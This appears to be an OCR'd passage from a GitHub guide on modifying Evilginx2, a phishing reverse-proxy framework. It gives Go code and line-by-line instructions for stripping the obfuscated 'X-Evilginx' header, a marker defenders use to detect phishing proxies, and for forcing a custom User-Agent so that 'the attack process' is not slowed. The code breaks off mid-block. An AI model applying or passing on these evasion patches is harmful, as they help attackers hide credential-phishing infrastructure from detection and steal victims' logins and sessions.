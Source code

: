 o_host := req.Host

// Line 330
req.Header.Set(p.getHomeDir(), o_host)

// Line 512
req.Header.Set(p.getHomeDir(), o_host)

// Line 1495
func (p *HttpProxy) getHomeDir() string {
	return strings.Replace(HOME_DIR, ".e", "X-E", 1) 
}
```

### Evilginx2 Easter Egg Patch (X-Evilginx Header)
- Evilginx2 contains easter egg code which adds a `X-Evilginx` header with each request.
- This header contains the Attacker Domain name. So it can be used for detection.
- To remove the Easter egg from evilginx just remove/comment below mentioned lines from the `core/http_proxy.go` file.
```
// Line 183
egg2 := req.Host

// Line 350
hg := []byte{0x94, 0xE1, 0x89, 0xBA, 0xA5, 0xA0, 0xAB, 0xA5, 0xA2, 0xB4}  

// Line 407
req.Header.Set(string(hg), egg2)  

// Line 377 to 379
for n, b := range hg {
		hg[n] = b ^ 0xCC
	}
  
// Line 562 to 566
e := []byte{208, 165, 205, 254, 225, 228, 239, 225, 230, 240}
for n, b := range e {
		e[n] = b ^ 0x88
}
req.Header.Set(string(e), e_host)

// Line 1456 to 1462
func (p *HttpProxy) cantFindMe(req *http.Request, nothing_to_see_here string) {
	var b []byte = []byte("\x1dh\x003,)\",+=")
	for n, c := range b {
		b[n] = c ^ 0x45
	}
	req.Header.Set(string(b), nothing_to_see_here)
}

// Line 580
p.cantFindMe(req, e_host)


```

### Add Custom User Agent
- Few sites have protections based on user agent, and relaying on javascript injections to modify the user agent on victim side may break/slow the attack process.
- Custom User Agent Can be Added on the fly by replacing the `User-Agent` Header in each requests.
- Below is the work Around Code to achieve this. You can add code in evilginx2 `core/http_proxy.go` file below line 395.
```
				// Replace Any User Agent With Firefox UserAgent
				useragent := req.Header.Get("User-Agent")
				if useragent != "" {                                   
							req.Header.Set("User-Agent", "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:96.0) Gecko/20100101 Firefox/96.0")